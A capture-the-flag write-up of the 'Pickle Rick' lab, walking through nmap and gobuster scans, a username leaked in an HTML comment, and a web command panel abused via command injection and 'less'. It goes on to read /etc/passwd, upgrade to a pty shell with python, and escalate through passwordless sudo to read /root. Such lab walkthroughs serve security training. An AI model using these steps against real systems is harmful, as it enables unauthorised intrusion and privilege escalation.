# Pickle Rick


This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: 10.10.34.163

## Target IP = 10.10.34.163

```
nmap -Pn 10.10.34.163 
```

* Open ports: 22, 80

Let's do a more thorough scan of these ports

```
nmap -sC -sV -p 22,80 10.10.34.163
```

* RESULTS:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 70:9c:1a:45:2d:8c:d0:9d:f0:b2:29:cc:be:6b:af:d4 (RSA)
|   256 ec:2f:d9:c5:9a:5c:fe:0b:4b:b5:94:7d:3d:e5:72:c0 (ECDSA)
|_  256 2a:8f:ce:b3:8b:d8:47:b7:53:fd:83:44:98:40:24:46 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

What do we know?

* OS - Linux (most likely Ubuntu)
* ssh and apache2 are running
* version information: OpenSSH 8.2p1 Ubuntu, Apache httpd 2.4.41 


## Explore the Web Page

- Open the web page in your browser: http://10.10.34.163.
- Check the source code (right-click -> View Page Source) for any clues like hidden comments, directories, or hints.
- Look at the page content for anything that might seem suspicious or a potential starting point for exploitation (like forms, links, or hidden text).



By looking at the source code I found the following comment:

```
<!--

    Note to self, remember username!

    Username: R1ckRul3s

-->
```

So now we have a potential username for something. 


## gobuster

I ran gobuster to find all the directories on the server

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.34.163
```

It seems like the first gobuster command isn't returning much. I am going to
keep it running just in case, but also run another more thorough one alongside
it on a different tmux window.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.34.163 -x php,html,txt,js,css,asp,aspx,jsp
```

This will instruct Gobuster to append each of these extensions to the words in your wordlist while scanning. For example, if the wordlist contains admin, it will check for:

* admin.php
* admin.html
* admin.php
* admin.html
* admin.txt
* admin.js
* admin.css
* admin.asp
* admin.aspx
* admin.jsp

**Common Extensions for Web Scanning:**

Here are some of the most common extensions to try:

* php (PHP files)
* html (HTML files)
* htm (alternative HTML extension)
* js (JavaScript files)
* css (Cascading Style Sheets)
* txt (text files, sometimes used for configuration or notes)
* xml (XML files)
* asp, aspx (ASP.NET files)
* jsp (Java Server Pages)
* cgi (Common Gateway Interface scripts)

**Here is what my Gobuster scan returned:**

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.34.163
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              jsp,php,html,txt,js,css,asp,aspx
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.34.163/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```

Well, let's take a look at all of these!

The first two just return "Forbidden" pages:





"index.html" is the home page that we already took a look at.



"assets" is for storing pictures and other files accessed by the web server



"login.php" is interesting:



"portal.php" takes us to "login.php"

"robots.txt" is also interesting:



Is this the password? Can we try to use it on the login page shown above??



**SUCCESS**




All of these pages lead to "denied.php"




When I looked at the source code of the denied.php file I found the following
comment:

```
<!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
```

What could it be? 

Let's explore the "Command Panel" a bit:



I can't use `cat`:



I found the same comment in the source code of this page:

```
<!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
```

I tried out a few commands and it turns out that I can use the command `less`
and see what the file `Sup3rS3cretPickl3Ingred.txt` contains:



```
mr. meeseek hair
```

and the command `less clue.txt` gives us the following answer "Look around the
file system for the other ingredient."

## exploiting the web shell

Well, now that we have a web shell, it's worth a try to see if we can get access
to the system. 

What should we try?

* Basic Command Injection: Test basic command injections using ; or && to chain commands. For example:



This shows that the shell is vulnerable to basic command injection!

* File Inclusion: Let's see if we can access `/etc/shadow` or `/etc/passwd`

```
less /etc/passwd
```

gives us the following results:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
landscape:x:103:105::/var/lib/landscape:/usr/sbin/nologin
tss:x:112:119:TPM software stack,,,:/var/lib/tpm:/bin/false
tcpdump:x:113:120::/nonexistent:/usr/sbin/nologin
fwupd-refresh:x:114:121:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```

**I tried to access /home/ubuntu but couldn't**

But guess what, we have python installed on the system:



Let's see if we can get a remote shell







## Shell

Let's upgrade our shell to an interactive one:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

This didn't work, so I did it with python3 and the prompt looks like the
following:

```
www-data@ip-10-10-124-95:/var/www/html$
```

Set the terminal environment:

```
export TERM=xterm
```

Disable echo:

```
stty -echo
```

## Privesc 

Then we go to `/home` and list the users:

We have two: "rick" and "ubuntu"

Let's go to `/home/rick` and see what we can find:




In the `ubuntu` directory I cannot read anything

I try `sudo -l`: 

```
Matching Defaults entries for www-data on ip-10-10-64-169:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-64-169:
    (ALL) NOPASSWD: ALL
```

The last line means that we can use sudo without a password!!!

Let's list out the `/root` directory:

```
sudo ls /root
```

And here we have our third ingredient!

```
sudo less /root/3rd.txt
```

The answer:

```3rd ingredients: fleeb juice```

**LET'S GOOOOOOOOO!!!!!**


